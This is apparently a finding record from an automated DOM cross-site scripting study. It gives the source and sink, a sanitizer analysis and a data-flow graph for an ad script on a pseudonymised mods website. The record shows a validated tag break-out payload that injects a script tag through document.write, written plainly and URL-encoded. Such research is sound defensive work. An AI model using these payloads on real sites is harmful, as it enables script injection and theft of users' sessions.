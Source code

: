 // Finding: 2b57e034-b5d1-45e6-b4ad-04a4b8973588
// Finding.url: https://www.example329.com/kingdomhearts3/mods/categories/4/
// Finding.parentloc: https://www.example329.com/kingdomhearts3/mods/categories/4/##'></iframe></style></script></object></embed></textarea><script>taintfoxLog('99198540e321457fa6272a6e7422eb74')</script><!--/*
// Finding.domain: www.example329.com
// Finding.base_domain: example329.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: SekindoClientDetections_URL/this.setInfo
// Sanitizer.location: https://live.example5.com/live/liveView.php?s=103852&cbuster=1477165403&pubUrl=https://www.example329.com/kingdomhearts3/mods/categories/4/%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%2799198540e321457fa6272a6e7422eb74%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]&vp_content=plembed1e2arlkxntwq - SekindoClientDetections_URL/this.setInfo:621:7
// Finding.begin: 494
// Finding.end: 671
// Finding.original_uuid: ad3682bc-cbd7-4645-97ca-ad68bfa455e6
// Finding.TwentyFiveMillionFlowsId: 645432275
// Finding.script: https://live.example5.com/live/liveView.php?s=103852&cbuster=1477165403&pubUrl=https://www.example329.com/kingdomhearts3/mods/categories/4/%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%2799198540e321457fa6272a6e7422eb74%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]&vp_content=plembed1e2arlkxntwq
// Finding.line: 915
// Exploit.uuid: 99198540-e321-457f-a627-2a6e7422eb74
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: '
// Exploit.tag: script
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 59
// Exploit.replace_begin_url: 59
// Exploit.replace_end_url: 59
// Exploit.replace_begin_param: 311
// Exploit.replace_end_param: 311
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1103853624
// DepGraph.sanitizer_hash: 1747527392

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: &pubUrlAuto="];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: https://live.example5.com/live/liveView.php?s=103852&cbuster=14....BID_ENCODED]&vp_content=plembed1e2arlkxntwq&cbuster=1619714983"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="Lit: SEKXLEN"];
n9 [shape=box, label="Lit: 650"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="Lit: SEKYLEN"];
n13 [shape=box, label="Lit: 300"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="Lit: '"];
n17 [shape=box, label="Lit: %27"];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="str_replace_once"];
n20 [shape=box, label="Lit: /liveView.php"];
n21 [shape=box, label="Lit: /prebid-ads.php"];
n22 [shape=box, label="Var: x"];
n23 [shape=ellipse, label="."];
n24 [shape=box, label="Lit: &csuuid=608ae3a7c00dc"];
n25 [shape=ellipse, label="."];
n26 [shape=box, label="Lit: &videoType=flow&floatWidth=400&floatHeight=225&floatDirection=....10&floatCloseBtn=1&flowMode=both&flowCloseButtonPosition=right"];
n27 [shape=box, label="Var: x"];
n28 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n5 -> n6;
n5 -> n3;
n10 -> n5;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n22 -> n15;
n19 -> n20;
n19 -> n21;
n19 -> n22;
n23 -> n19;
n23 -> n24;
n25 -> n23;
n25 -> n26;
n27 -> n25;
n28 -> n27;
}